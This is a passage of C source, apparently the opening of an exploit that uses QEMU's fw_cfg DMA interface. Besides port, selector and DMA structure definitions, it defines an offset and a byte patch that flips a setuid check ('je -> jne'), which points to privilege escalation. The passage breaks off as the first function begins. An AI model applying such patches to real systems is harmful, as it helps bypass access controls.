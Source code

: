 ```c
#define SETUID_CHECK            0x02b960dul
#define SETUID_PATCH            0x75        // je -> jne

// CFG PORTS
#define FW_CFG_PORT_SEL         0x510
#define FW_CFG_PORT_DATA        0x511
#define BIOS_CFG_DMA_ADDR_HIGH  0x514
#define BIOS_CFG_DMA_ADDR_LOW   0x518

#define FW_CFG_SIGNATURE	    0x00
#define FW_CFG_ID		        0x01
#define FW_CFG_UUID		        0x02
#define FW_CFG_RAM_SIZE		    0x03
#define FW_CFG_NOGRAPHIC	    0x04
#define FW_CFG_NB_CPUS		    0x05
#define FW_CFG_MACHINE_ID	    0x06
#define FW_CFG_KERNEL_ADDR	    0x07
#define FW_CFG_KERNEL_SIZE	    0x08
#define FW_CFG_KERNEL_CMDLINE	0x09
#define FW_CFG_INITRD_ADDR	    0x0a
#define FW_CFG_INITRD_SIZE	    0x0b
#define FW_CFG_BOOT_DEVICE	    0x0c
#define FW_CFG_NUMA		        0x0d
#define FW_CFG_BOOT_MENU	    0x0e
#define FW_CFG_MAX_CPUS		    0x0f
#define FW_CFG_KERNEL_ENTRY	    0x10
#define FW_CFG_KERNEL_DATA	    0x11
#define FW_CFG_INITRD_DATA	    0x12
#define FW_CFG_CMDLINE_ADDR	    0x13
#define FW_CFG_CMDLINE_SIZE	    0x14
#define FW_CFG_CMDLINE_DATA	    0x15
#define FW_CFG_SETUP_ADDR	    0x16
#define FW_CFG_SETUP_SIZE	    0x17
#define FW_CFG_SETUP_DATA	    0x18
#define FW_CFG_FILE_DIR		    0x19


// https://wiki.osdev.org/QEMU_fw_cfg
struct FWCfgFile {
    uint32_t size;		/* size of referenced fw_cfg item, big-endian */
    uint16_t select;	/* selector key of fw_cfg item, big-endian */
    uint16_t reserved;
    char name[56];		/* fw_cfg item name, NUL-terminated ascii */   
};

// fw_cfg DMA commands
typedef enum fw_cfg_ctl_t {
    fw_ctl_error = 1,
    fw_ctl_read = 2,
    fw_ctl_skip = 4,
    fw_ctl_select = 8,
    fw_ctl_write = 16
} fw_cfg_ctl_t;

typedef struct FWC_fg_dma_access {
    uint32_t control;
    uint32_t length;
    uint64_t address;
} FWC_fg_dma_access;

uint8_t* initrd_cache = NULL;

uint64_t get_physical_addr(uint64_t virt_addr) {
```